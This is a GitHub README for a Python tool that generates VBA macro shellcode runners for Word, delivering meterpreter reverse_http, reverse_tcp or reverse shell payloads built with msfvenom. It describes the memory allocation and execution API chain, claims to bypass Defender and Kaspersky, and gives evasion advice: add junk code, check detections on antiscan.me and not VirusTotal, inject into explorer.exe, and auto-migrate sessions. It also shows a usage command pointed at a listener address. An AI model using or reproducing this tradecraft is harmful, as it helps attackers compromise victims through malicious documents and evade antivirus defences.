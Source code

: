 # vba_bin_runner
Basic python tools to generate shellcode runner in vba.

The stub use ZwAllocateVirtualMemory to allocate memory, RtlMoveMemory to write memory and EnumDateFormatsW to execute shellcode.
You can generate meterpreter/reverse_http (compatible cobalt strike), reverse_tcp and reverse_shell. 

In antiscan.me i have 0/26 detections in scantime. In runtime i bypass Defender and Kaspersky but if you use c2 some function can be detected by AV.
If the stub is detected you can edit/add junk code and change the function to allocate/write/execute. 
You can Easier  edit this with : https://github.com/karttoon/trigen/blob/master/function_VBA_notes.txt

The macro self inject shellcode in word process, after macro is enabled the Word Application crash, if you want to patch this you can edit stub to inject shellcode in other process (explorer.exe for exemple).

If you use meterpreter you can add automigrate in your listener to keep connection after Word Application crash.
To keep stub long time no-detect use antiscan.me to check and no virus total. 

NB : Please don't use this for illegal activity

# How to use
Python main.py -p 1 -L 192.168.1.17 -P 80 -o /home/kali/Desktop/test.vba

 -p : Is for the choice of payload
 
      1 -> windows/meterpreter/reverse_http
      
      2 -> windows/meterpreter/reverse_tcp
      
      3 -> windows/shell_reverse_tcp
      
      
 -L : Is for the ip of listener
 
 -P : Is for the port of listener
 
 -o : Is for the destination output of payload
 
 
 The tools use msfvenom to generate payload.

# For education only
